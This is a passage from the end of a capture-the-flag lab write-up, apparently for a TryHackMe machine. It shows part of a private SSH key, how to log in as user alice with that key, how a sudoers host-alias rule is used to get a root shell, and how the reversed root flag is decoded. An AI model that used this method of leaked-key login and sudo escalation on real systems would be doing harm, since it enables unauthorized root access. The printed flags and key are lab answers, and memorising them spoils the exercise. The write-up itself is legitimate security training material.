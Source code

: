 ```
/pHmkU1C4WkaJdjpZhSPfGjxpK4UtKx3Uetjw+1eomIVNu6pkivJ0DyXVJiTZ5jF
ql2PZTVpwPtRw+RebKMwjqwo4k77Q30r8Kxr4UfX2hLHtHT8tsjqBUWrb/jlMHQO
zmU73tuPVQSESgeUP2jOlv7q5toEYieoA+7ULpGDwDn8PxQjCF/2QUa2jFalixsK
WfEcmTnIQDyOFWCbmgOvik4Lzk/rDGn9VjcYFxOpuj3XH2l8QDQ+GO+5BBg38+aJ
cUINwh4BAoGBAPdctuVRoAkFpyEofZxQFqPqw3LZyviKena/HyWLxXWHxG6ji7aW
DmtVXjjQOwcjOLuDkT4QQvCJVrGbdBVGOFLoWZzLpYGJchxmlR+RHCb40pZjBgr5
8bjJlQcp6pplBRCF/OsG5ugpCiJsS6uA6CWWXe6WC7r7V94r5wzzJpWBAoGBAM1R
aCg1/2UxIOqxtAfQ+WDxqQQuq3szvrhep22McIUe83dh+hUibaPqR1nYy1sAAhgy
wJohLchlq4E1LhUmTZZquBwviU73fNRbID5pfn4LKL6/yiF/GWd+Zv+t9n9DDWKi
WgT9aG7N+TP/yimYniR2ePu/xKIjWX/uSs3rSLcFAoGBAOxvcFpM5Pz6rD8jZrzs
SFexY9P5nOpn4ppyICFRMhIfDYD7TeXeFDY/yOnhDyrJXcbOARwjivhDLdxhzFkx
X1DPyif292GTsMC4xL0BhLkziIY6bGI9efC4rXvFcvrUqDyc9ZzoYflykL9KaCGr
+zlCOtJ8FQZKjDhOGnDkUPMBAoGBAMrVaXiQH8bwSfyRobE3GaZUFw0yreYAsKGj
oPPwkhhxA0UlXdITOQ1+HQ79xagY0fjl6rBZpska59u1ldj/BhdbRpdRvuxsQr3n
aGs//N64V4BaKG3/CjHcBhUA30vKCicvDI9xaQJOKardP/Ln+xM6lzrdsHwdQAXK
e8wCbMuhAoGBAOKy5OnaHwB8PcFcX68srFLX4W20NN6cFp12cU2QJy2MLGoFYBpa
dLnK/rW4O0JxgqIV69MjDsfRn1gZNhTTAyNnRMH1U7kUfPUB2ZXCmnCGLhAGEbY9
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```
* We can put this in a file on our local system, change permissions with `chmod 600 alice.key`, and ssh in with `ssh alice@10.10.156.153 -i alice.key`

### root
* Looking at the sudoers file for the alice user with `cat /etc/sudoers.d/alice`, we see the following:
`alice ssalg-gnikool = (root) NOPASSWD: /bin/bash`
* This means alice can run `/bin/bash` as `root` using the `ssalg-gnikool` host
	* Thus, running `sudo -h ssalg-gnikool /bin/bash` gives us root

* `cat /root/root.txt` gives us `}f3dae6dec817ad10b750d79f6b7332cb{mht`, which looks like a backwards flag.
        * We can reverse that in python:

```python3
with open('root.txt') as fin:
        print(fin.read().rstrip()[::-1])
```
* The root flag is `thm{bc2337b6f97d057b01da718ced6ead3f}`

